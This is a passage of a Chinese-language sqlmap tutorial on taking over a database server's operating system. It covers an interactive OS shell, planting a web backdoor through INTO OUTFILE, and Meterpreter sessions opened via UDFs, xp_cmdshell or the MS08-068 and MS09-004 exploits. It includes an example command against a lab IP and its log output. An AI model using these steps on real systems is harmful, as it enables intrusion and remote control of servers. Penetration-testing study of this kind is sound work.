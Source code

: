```
only be deleted manually
```

用–os-shell参数也可以模拟一个真实的shell，可以输入你想执行的命令。

当不能执行多语句的时候（比如php或者asp的后端数据库为MySQL时），仍然可能使用INTO OUTFILE写进可写目录，来创建一个web后门。支持的语言：

```
1、ASP
2、ASP.NET
3、JSP
4、PHP
```

### Meterpreter配合使用

参数：–os-pwn,–os-smbrelay,–os-bof,–priv-esc,–msf-path,–tmp-path

当数据库为MySQL，PostgreSQL或Microsoft SQL Server，并且当前用户有权限使用特定的函数，可以在数据库与攻击者直接建立TCP连接，这个连接可以是一个交互式命令行的Meterpreter会话，sqlmap根据Metasploit生成shellcode，并有四种方式执行它：

```
1、通过用户自定义的sys_bineval()函数在内存中执行Metasplit的shellcode，支持MySQL和PostgreSQL数据库，参数：--os-pwn。
2、通过用户自定义的函数上传一个独立的payload执行，MySQL和PostgreSQL的sys_exec()函数，Microsoft SQL Server的xp_cmdshell()函数，参数：--os-pwn。
3、通过SMB攻击(MS08-068)来执行Metasploit的shellcode，当sqlmap获取到的权限足够高的时候（Linux/Unix的uid=0，Windows是Administrator），--os-smbrelay。
4、通过溢出Microsoft SQL Server 2000和2005的sp_replwritetovarbin存储过程(MS09-004)，在内存中执行Metasploit的payload，参数：--os-bof
```

列举一个MySQL例子：

```
$ python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/iis/get_int_55.aspx?id=1" --os-pwn --msf-path /software/metasploit

[...]
[hh:mm:31] [INFO] the back-end DBMS is MySQL
web server operating system: Windows 2003
web application technology: ASP.NET, ASP.NET 4.0.30319, Microsoft IIS 6.0
back-end DBMS: MySQL 5.0
[hh:mm:31] [INFO] fingerprinting the back-end DBMS operating system
[hh:mm:31] [INFO] the back-end DBMS operating system is Windows
how do you want to establish the tunnel?
[1] TCP: Metasploit Framework (default)
[2] ICMP: icmpsh - ICMP tunneling
&gt; 
[hh:mm:32] [INFO] testing if current user is DBA
[hh:mm:32] [INFO] fetching current user
what is the back-end database management system architecture?
[1] 32-bit (default)
[2] 64-bit
&gt; 
[hh:mm:33] [INFO] checking if UDF 'sys_bineval' already exist
[hh:mm:33] [INFO] checking if UDF 'sys_exec' already exist
[hh:mm:33] [INFO] detecting back-end DBMS version from its banner
[hh:mm:33] [INFO] retrieving MySQL base directory absolute path
[hh:mm:34] [INFO] creating UDF 'sys_bineval' from the binary UDF file
[hh:mm:34] [INFO] creating UDF 'sys_exec' from the binary UDF file
how do you want to execute the Metasploit shellcode on the back-end database underlying 
operating system?
[1] Via UDF 'sys_bineval' (in-memory way, anti-forensics, default)
[2] Stand-alone payload stager (file system way)
&gt; 
[hh:mm:35] [INFO] creating Metasploit Framework multi-stage shellcode 
which connection type do you want to use?
```